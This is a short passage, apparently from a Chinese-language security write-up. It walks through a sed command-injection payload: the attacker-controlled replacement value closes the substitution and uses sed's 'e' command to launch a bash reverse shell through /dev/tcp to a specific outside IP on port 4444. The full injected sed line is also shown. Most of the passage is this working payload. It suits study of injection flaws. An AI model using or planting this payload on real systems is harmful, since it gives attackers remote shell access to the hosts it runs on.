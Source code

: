 [![](assets/1706957701-36b542d3c54cdd9190c53da224f806ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202171253-3f2e204c-c1ab-1.png)

所以我们变成：

```bash
aaaa/g;e bash -c "bash -i >& /dev/tcp/120.79.29.170/4444 0>&1";

#整条变成：
sed -i "s/METHOD/aaaa/g;e bash -c "bash -i >& /dev/tcp/ip/4444 0>&1";/g" "$NEW_FILENAME"
```

> 通过;分割命令的参数，整条命令就是将`$NEW_FILENAME`中的`METHOD`替换为`aaaa`，并且执行反弹 shell 的命令，至于`/g`并没有任何作用，只要不报错就好了。
